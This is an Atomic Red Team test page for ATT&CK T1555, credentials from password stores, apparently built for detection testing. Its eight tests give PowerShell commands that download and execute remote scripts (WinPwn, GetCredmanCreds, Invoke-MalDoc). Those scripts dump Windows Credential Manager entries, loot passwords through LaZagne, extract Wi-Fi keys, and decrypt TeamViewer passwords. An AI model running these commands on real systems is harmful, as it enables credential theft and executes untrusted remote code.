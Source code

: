 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials.(Citation: F-Secure The Dukes) Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications and services that store passwords to make them easier for users to manage and maintain, such as password managers and cloud secrets vaults. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)

- [Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]](#atomic-test-4---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-windows-credentials)

- [Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]](#atomic-test-5---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-web-credentials)

- [Atomic Test #6 - WinPwn - Loot local Credentials - lazagne](#atomic-test-6---winpwn---loot-local-credentials---lazagne)

- [Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials](#atomic-test-7---winpwn---loot-local-credentials---wifi-credentials)

- [Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords](#atomic-test-8---winpwn---loot-local-credentials---decrypt-teamviewer-passwords)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
<br/>

## Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]
This module will enumerate credentials stored in Windows Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 36753ded-e5c4-4eb5-bc3c-e8fba236878d






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Windows Credentials" /all
```






<br/>
<br/>

## Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]
This module will enumerate credentials stored in Web Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** bc071188-459f-44d5-901a-f8f2625b2d2e






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Web Credentials" /all
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - lazagne
The [LaZagne project](https://github.com/AlessandroZ/LaZagne) is an open source application used to retrieve lots of passwords stored on a local computer. 
Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). 
This tool has been developed for the purpose of finding these passwords for the most commonly-used software

**Supported Platforms:** Windows


**auto_generated_guid:** 079ee2e9-6f16-47ca-a635-14efcd994118






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
lazagnemodule -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials
Loot local Credentials - Wifi Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** afe369c2-b42e-447f-98a3-fb1f4e2b8552






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
wificreds -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords
Loot local Credentials - Decrypt Teamviewer Passwords technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** db965264-3117-4bad-b7b7-2523b7856b92






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
decryptteamviewer -consoleoutput -noninteractive
```






<br/>

